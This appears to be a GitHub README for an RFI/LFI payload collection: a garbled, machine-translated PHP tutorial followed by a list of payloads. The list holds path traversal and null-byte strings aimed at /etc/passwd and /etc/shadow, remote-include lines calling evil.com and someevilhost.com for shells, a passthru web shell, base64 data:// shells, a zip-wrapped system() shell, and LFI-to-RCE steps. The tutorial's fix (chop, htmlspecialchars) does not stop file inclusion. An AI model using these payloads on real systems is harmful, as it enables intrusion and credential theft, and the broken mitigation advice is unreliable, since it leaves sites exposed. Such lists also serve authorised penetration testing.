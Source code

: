 # RFI/LFI

<p align="center">
<img src="https://github.com/payloadbox/rfi-lfi-payload-list/blob/master/img/rfi-lfi.jpeg">
</p>

<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/rfi-lfi-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/rfi-lfi-payload-list"> <img src="https://img.shields.io/github/issues/detail/author//payloadbox/rfi-lfi-payload-list/1">
</p>

## Explicación

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give example codes in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something will appear like this.

```
http: //localhost/index.php? page = files.php
```

Now, if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder 
can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ _GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.
```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars ()
htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

## Payloads

#### [+] Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### [+] Basic LFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### [+] Basic RFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### [+] LFI / RFI Wrappers :

> LFI Wrapper rot13 and base64 - php://filter case insensitive.

```

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

> LFI Wrapper ZIP :

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

> RFI Wrapper DATA with "" payload :

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

> RFI Wrapper EXPECT :

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

#### [+] XSS via RFI/LFI with "" payload :

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### [+] LFI to RCE via /proc/*/fd :
 
 1. Upload a lot of shells (for example : 100)
 2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
 
#### [+] LFI to RCE via Upload :

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

### Servicios / Versiones

#### [+] PHP 5.2.17
```
/etc/passwd\0
/etc/passwd/.
```

#### References :

👉 [Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

👉 [Wikipedia](www.wikipedia.org/wiki/Local_File_Inclusion)

👉 [Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

👉 [Wikipedia: "Remote File Inclusion"](http://en.wikipedia.org/wiki/Remote_File_Inclusion)

👉 [PHP File Inclusion](https://www.owasp.org/index.php/PHP_File_Inclusion)
